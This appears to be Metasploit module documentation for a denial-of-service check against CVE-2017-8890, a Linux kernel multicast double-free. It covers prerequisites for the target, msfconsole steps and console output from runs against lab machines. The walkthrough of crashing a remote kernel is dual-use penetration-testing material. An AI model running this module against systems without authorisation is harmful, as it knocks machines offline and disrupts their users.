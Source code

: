 ## Vulnerable Machine

    1. Target is a Linux machine of kernel version 4.11 or below.
    2. Target is listening for a connection and calls accept(). Listener socket must be in the multicast group.
       Here's a sample of #2 written in C:
       ```
       sockfd = socket(AF_INET, ...);
       setsockopt(sockfd, SOL_IP, MCAST_JOIN_GROUP, ...);
       bind(sockfd, ...);
       listen(sockfd, ...)
       newsockfd = accept(sockfd, ...);
       close(newsockfd);  // first free
       close(sockfd);     // second free
       ```
    3. Target can be reached over the network.

## Verification Steps

    1. Start `msfconsole`
    2. Do: `use auxiliary/dos/linux/mcast_dfree`
    3. Do: `set RHOSTS <listener socket address>`
    4. Do: `set RPORT <listener port>`
    5. Do: `set WAIT_DOS <seconds to wait for DoS>`
    6. Do: `run`
    7. Module will ping and attempt to connect to the vulnerable target machine.

## Options

* `WAIT_DOS`: Integer value represents amount of seconds to sleep the module before attempting to ping after the connection to the target. The default is 15. The time from double free to kernel panic may vary depending on kernel version and other factors.

## Scenarios

This IPv4 double-free vulnerability (CVE 2017-8890, part of "Phoenix Talon" class of vulnerabilities) exists in kernel versions 4.11 and below. This module has been tested with the target machine running each of the following CVE 2017-8890-vulnerable kernels:
* Linux Kernel Version 4.10.0-041000rc5-generic
* Linux Kernel Version 4.10.15-041015-generic
* Linux Kernel Version 4.10.17-041016-generic
* Linux Kernel Version 4.11.0-041100-generic

The above four kernels yield the following behavior from this module:
```
msf5 > use auxiliary/dos/linux/mcast_dfree
msf5 auxiliary(dos/linux/mcast_dfree) > show options

Module options (auxiliary/dos/linux/mcast_dfree):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   RHOSTS    127.0.0.1        yes       The target address range or CIDR identifier
   RPORT     4444             yes       The target port (TCP)
   WAIT_DOS  15               yes       Time to wait for target kernel to panic (in seconds)

msf5 auxiliary(dos/linux/mcast_dfree) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 auxiliary(dos/linux/mcast_dfree) > set RPORT 6666
RPORT => 6666
msf5 auxiliary(dos/linux/mcast_dfree) > set WAIT_DOS 35
WAIT_DOS => 35
msf5 auxiliary(dos/linux/mcast_dfree) > run
[*] Running module against 192.168.56.101

[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[+] 192.168.56.101:6666 - Target machine is running.
[+] 192.168.56.101:6666 - Connection successfuly established with 192.168.56.101:6666
[*] 192.168.56.101:6666 - Waiting for 35 seconds...
[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[+] 192.168.56.101:6666 - No reply from target machine post-connection.
[*] Auxiliary module execution completed
```

Note: As mentioned above, the `WAIT_DOS` value may need to be increased in order for the module to catch that the DoS succeeded. For instance, with a target running kernel version 4.10.17, this was necessary:
```
msf5 > use auxiliary/dos/linux/mcast_dfree
msf5 auxiliary(dos/linux/mcast_dfree) > show options

Module options (auxiliary/dos/linux/mcast_dfree):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   RHOSTS    127.0.0.1        yes       The target address range or CIDR identifier
   RPORT     4444             yes       The target port (TCP)
   WAIT_DOS  15               yes       Time to wait for target kernel to panic (in seconds)

msf5 auxiliary(dos/linux/mcast_dfree) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 auxiliary(dos/linux/mcast_dfree) > set RPORT 6666
RPORT => 6666
msf5 auxiliary(dos/linux/mcast_dfree) > run
[*] Running module against 192.168.56.101

[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[+] 192.168.56.101:6666 - Target machine is running.
[+] 192.168.56.101:6666 - Connection successfuly established with 192.168.56.101:6666
[*] 192.168.56.101:6666 - Waiting for 15 seconds...
[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[-] 192.168.56.101:6666 - Target machine responsive. DoS failed.
[*] Auxiliary module execution completed
msf5 auxiliary(dos/linux/mcast_dfree) > set WAIT_DOS 35
WAIT_DOS => 35
msf5 auxiliary(dos/linux/mcast_dfree) > run
[*] Running module against 192.168.56.101

[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[+] 192.168.56.101:6666 - Target machine is running.
[+] 192.168.56.101:6666 - Connection successfuly established with 192.168.56.101:6666
[*] 192.168.56.101:6666 - Waiting for 35 seconds...
[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[+] 192.168.56.101:6666 - No reply from target machine post-connection.
[*] Auxiliary module execution completed
```
But in the other three versions tested, the default 15 seconds sufficed.

This module has also been tested with known patched kernels (not vulnerable to CVE 2017-8890) such as 4.12. The behavior for a non-vulnerable target is as follows:
```
msf5 auxiliary(dos/linux/mcast_dfree) > run
[*] Running module against 192.168.56.101

[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[+] 192.168.56.101:6666 - Target machine is running.
[+] 192.168.56.101:6666 - Connection successfuly established with 192.168.56.101:6666
[*] 192.168.56.101:6666 - Waiting for 35 seconds...
[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[-] 192.168.56.101:6666 - Target machine responsive. DoS failed.
[*] Auxiliary module execution completed
```
If the target machine is not listening, the module will fail:
```
msf5 auxiliary(dos/linux/mcast_dfree) > run
[*] Running module against 192.168.56.101

[*] 192.168.56.101:6666 - Pinging the target machine at 192.168.56.101
[+] 192.168.56.101:6666 - Target machine is running.
[-] 192.168.56.101:6666 - Failed to connect to 192.168.56.101:6666. Connection refused. Make sure target is listening.
[*] Auxiliary module execution completed
```
